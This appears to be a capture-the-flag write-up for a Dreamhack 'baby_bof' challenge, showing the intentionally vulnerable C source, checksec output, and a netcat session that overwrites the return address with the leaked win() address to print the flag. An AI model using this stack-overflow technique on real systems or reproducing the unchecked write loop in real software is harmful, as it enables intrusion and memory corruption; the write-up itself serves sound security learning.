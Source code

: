 ### Overview 
First of all, let's checksec this file:
```
$ checksec baby-bof
[*] '/home/khanh/Documents/PWN-dreamhack/baby_bof/deploy/baby-bof'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
Luckily, this challenge dont have Canary. Now, let's take a look at the source code:
````c
void win () 
{
  char flag[100] = {0,};
  int fd;
  puts ("You mustn't be here! It's a vulnerability!");

  fd = open ("./flag", O_RDONLY);
  read(fd, flag, 0x60);
  puts(flag);
  exit(0);
}

long count;
long value;
long idx = 0;
int main ()
{
  char name[16];

  // don't care this init function
  proc_init (); 

  printf ("the main function doesn't call win function (0x%lx)!\n", win); //address: 0x40125b

  printf ("name: ");
  scanf ("%15s", name);

  printf ("GM GA GE GV %s!!\n: ", name);

  printf ("|  addr\t\t|  value\t\t|\n");
  for (idx = 0; idx < 0x10; idx++) {
    printf ("|  %lx\t|  %16lx\t|\n", name + idx *8, *(long*)(name + idx*8));
  }

  printf ("hex value: ");
  scanf ("%lx%c", &value);

  printf ("integer count: ");
  scanf ("%d%c", &count);


  for (idx = 0; idx < count; idx++) {
    *(long*)(name+idx*8) = value;
  }

  
  printf ("|  addr\t\t|  value\t\t|\n");
  for (idx = 0; idx < 0x10; idx++) {
    printf ("|  %lx\t|  %16lx\t|\n", name + idx *8, *(long*)(name + idx*8));
  }

  return 0;
}

````
We can see that there are 2 function main() and win().
And for sure, our goal is how to call win() function by buffer overflow vulnerability.
And the program leak the win() address by this line:

``
printf ("the main function doesn't call win function (0x%lx)!\n", win);
``
That's cool. 
### Exploitation
Analyze the code a little bit, there are some crazy stuffs there:
```c
printf ("hex value: ");
  scanf ("%lx%c", &value);

  printf ("integer count: ");
  scanf ("%d%c", &count);


  for (idx = 0; idx < count; idx++) {
    *(long*)(name+idx*8) = value;
  }

```
We can see that it will take our input to `$count $value` and override the next `8*count` bytes by the value of `$value` from the beginning of `name` variabble.
It means that the value when we input for `name` variable is not valuable. And the idea is that override all bytes by `win() address`

We know that the `name` has 16 bytes long on the stack, and then 8 bytes `saved rbp` and 8 bytes `return address`

Thus, from `name` variable, we need override total 32 bytes. And each iteration override 8 bytes, so we need `count=4` to solve this challenge
```
khanh@ubuntu:~/Documents/PWN-dreamhack/baby_bof/deploy$ nc host3.dreamhack.games 14551
the main function doesn't call win function (0x40125b)!
name: bof
GM GA GE GV bof!!
: |  addr               |  value                |
|  7fff62380830 |            666f62     |
|  7fff62380838 |            401110     |
|  7fff62380840 |                 1     |
|  7fff62380848 |      7f42fa4c0d90     |
|  7fff62380850 |                 0     |
|  7fff62380858 |            401325     |
|  7fff62380860 |         162380940     |
|  7fff62380868 |      7fff62380958     |
|  7fff62380870 |                 0     |
|  7fff62380878 |  d0de44dac10d0fa0     |
|  7fff62380880 |      7fff62380958     |
|  7fff62380888 |            401325     |
|  7fff62380890 |            403e18     |
|  7fff62380898 |      7f42fa6fd040     |
|  7fff623808a0 |  2f2080aad1af0fa0     |
|  7fff623808a8 |  2e5bb042db870fa0     |
hex value: 0x40125b
integer count: 4
|  addr         |  value                |
|  7fff62380830 |            40125b     |
|  7fff62380838 |            40125b     |
|  7fff62380840 |            40125b     |
|  7fff62380848 |            40125b     |
|  7fff62380850 |                 0     |
|  7fff62380858 |            401325     |
|  7fff62380860 |         162380940     |
|  7fff62380868 |      7fff62380958     |
|  7fff62380870 |                 0     |
|  7fff62380878 |  d0de44dac10d0fa0     |
|  7fff62380880 |      7fff62380958     |
|  7fff62380888 |            401325     |
|  7fff62380890 |            403e18     |
|  7fff62380898 |      7f42fa6fd040     |
|  7fff623808a0 |  2f2080aad1af0fa0     |
|  7fff623808a8 |  2e5bb042db870fa0     |
You mustn't be here! It's a vulnerability!
DH{62228e6f20a8b71372f0eceb51537c7f94b8191651ea0636ed4e48857c5b340c}

```